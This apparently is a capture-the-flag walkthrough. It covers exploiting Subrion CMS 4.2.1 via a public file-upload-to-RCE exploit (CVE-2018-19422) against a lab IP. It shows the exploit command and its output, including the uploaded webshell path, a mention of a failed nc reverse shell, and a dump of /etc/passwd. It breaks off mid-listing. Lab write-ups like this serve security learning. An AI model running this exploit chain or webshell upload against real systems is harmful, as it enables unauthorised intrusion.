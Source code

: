 ## <b>Initial Access</b>

Now, I successfully located the CMS website. After determining the version number to be {== 4.2.1 ==}, I followed best practices by checking the database portal of searchsploit for any potential payloads and exploits. 

<img id="image5" />

I identified a possible RCE attack. Executing the following command led to my initial foothold on the webserver as `www-data` (a low-hanging fruit).

!!! danger "Arbitary File Upload"

    ``` dtd
    python3 49876.py -u http://10.10.166.73/subrion/panel/ -l admin -p {--REDACTED--}

    [+] SubrionCMS 4.2.1 - File Upload Bypass to RCE - CVE-2018-19422 

    [+] Trying to connect to: http://10.10.166.73/subrion/panel/
    [+] Success!
    [+] Got CSRF token: LMx7pGnP4TA2tH67fVLEDShClIsmLu4rhKBjbIKY
    [+] Trying to log in...
    [+] Login Successful!

    [+] Generating random name for Webshell...
    [+] Generated webshell name: cosqtjuuaaeiyms

    [+] Trying to Upload Webshell..
    [+] Upload Success... Webshell path: http://10.10.166.73/subrion/panel/uploads/cosqtjuuaaeiyms.phar 
    ```

!!! note "Password Crack"
    <span>Note: You need to crack the password of admin using the magic function in CyberChef</span>

## <b>Privilege Escalation</b>

### <b>Gaining User access</b>

To elevate my access privileges, I attempted to establish a reverse shell from this point using the nc command. Unfortunately, my efforts didn't work well, and I was looking other alternatives.

At this point, I decided to enumerate the server's users further. I ran `/etc/passwd` and discovered the usernames.

``` dtd linenums="1" hl_lines="30"

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
```